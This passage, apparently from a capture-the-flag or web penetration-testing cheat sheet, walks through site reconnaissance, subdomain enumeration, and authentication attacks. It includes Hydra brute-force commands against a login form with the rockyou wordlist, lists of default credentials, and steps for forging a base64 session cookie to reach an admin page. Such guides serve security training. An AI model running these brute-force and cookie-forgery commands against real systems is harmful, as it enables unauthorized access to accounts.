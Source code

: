 ### Step 1.4: Source Code Analysis
```bash
# Download entire site
wget -r -np -k $TARGET -P recon/website/

# Search for interesting strings
grep -r "flag\|password\|api_key\|token" recon/website/

# Look for comments
grep -r "<!--" recon/website/ | grep -v "^Binary"

# JavaScript analysis
find recon/website/ -name "*.js" -exec grep -H "flag\|api\|secret" {} \;
```

### Step 1.5: Subdomain & DNS Enum
```bash
# Subdomain discovery
sublist3r -d target.com -o recon/subdomains.txt

# DNS records
dig target.com ANY
nslookup target.com
```

---

## 2. Authentication & Session Issues {#2-authentication-session}

### Step 2.1: Default Credentials
```bash
# Try common credentials
# admin:admin, admin:password, test:test, root:root, admin:admin123

# Hydra brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# Custom wordlist attack
hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt $TARGET http-post-form "/login:username=^USER^&password=^PASS^:F=failed"
```

### Step 2.2: Cookie Manipulation
```bash
# Capture cookie in Burp Suite
# Look for: isAdmin=false, role=user, auth=base64string

# Decode Base64 cookies
echo "dXNlcjoxMjM=" | base64 -d

# Modify and re-encode
echo "admin:123" | base64

# Test modified cookie
curl -b "session=YWRtaW46MTIz" $TARGET/admin
```
